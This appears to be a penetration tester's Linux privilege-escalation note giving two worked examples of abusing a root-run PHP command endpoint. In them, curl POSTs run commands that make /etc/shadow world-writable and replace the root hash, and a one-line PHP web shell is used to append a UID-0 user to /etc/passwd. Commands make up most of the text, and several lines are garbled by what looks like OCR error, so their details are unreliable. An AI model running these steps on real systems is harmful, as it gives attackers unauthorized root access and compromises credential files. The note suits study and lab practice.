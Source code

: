 #### Example 1
Say we find a listener on port 8080 running as root.  We can try using curl to POST data to it, first may need to find the files related to that port:

[[find]]
```
find / -iname *.php* 2>/dev/null
```

```
find / -iname *.html* 2>/dev/null
```


```
cat start_page.php
```

Here we can see reference of cmd.php page.

`<li class="start <?php if ($page=='cmd.php'){echo 'selected’';}?>"><a href="/start_page.php?page=cmd.php">CMD</a></1i>
`
```
cat cmd.php
```

Here we see on the cmd.php page that we can POST data to it and it will run the command.

```
<fieldset> 
	<form action="/start_page.php?page=cnd.php" method="POST"> 
		<p>Command: <input name="cmd” id="cmd" value="<?php echo $cmd; ?>" onClick="this.select();" type="text" /></p>
		<p><input name="send" style="margin-left: 150px;" class="formbutton" value="CMD It!® type="submit® /></p>
```

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='id'
```

Next start testing what you can do with passwd and shadow files.  Below, we will chmod shadow file and replace hash vaule.

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='chmod 777 /etc/shadow'
```

```
curl -X POST 0.0.0.0:8080/start_page.php?page=cmd.php --data cmd='cat /etc/shadow'
```

Copy contents to local shadow file on kali to edit and send back.

```bash - kali
mkpasswd -m sha-512 password
```

`$6$5gnWUgDEXJ.J.X3s$truKvZr/Vl7o5SIb.TEgR44LyihHNUoCZnt4PIIO31EyTOc6Pfccd1AYdwwp2Vj1CT.1y1vpxroyvuhxCYKGl/`

Replace root password hash with above, send to target and replace /etc/shadow

```
su root
```

```
password
```

#### Example 2

[[4._POST_EXPLOITATION/1._Linux_PrivEsc/1._Manual Enumeration#System Enumeration]]

`root 2056 0.0 0.0 2244 536 2 Ss 10:56 0:00 /bin/sh -c cd /home/jeremy & z-cmd -5 127.0.0.1:8989`
`root 2057 0.0 0.1 16660 3156 ? 5 10156 0:00 z-cmd -5 127.0.0.1:8389`

```
cat z-cmd
```

`<?php system($_POST[]'z'1]); ?>`

```
curl -X POST --data z='touch /home/jeremy/Ztest' 127.0.0.1:8989/z-cmd.php
```

Generate a password hash for the password “password”

using openssl :

```
openssl passwd "password"
```

```
curl -X POST --data z=' echo newroot:Ar4farDnTEYmw:0:0:root:/root:/bin/bash >> /etc/passwd' 127.0.0.1:8989/z-cmd.php
```

```
cat /etc/passwd | grep root
```

`root:x:0:0:root:/root: /bin/bash`
`newroot :LIYLGXcbOROC: 0 0: root: /root: /bin/bash`

```
su newroot
```

```
password
```
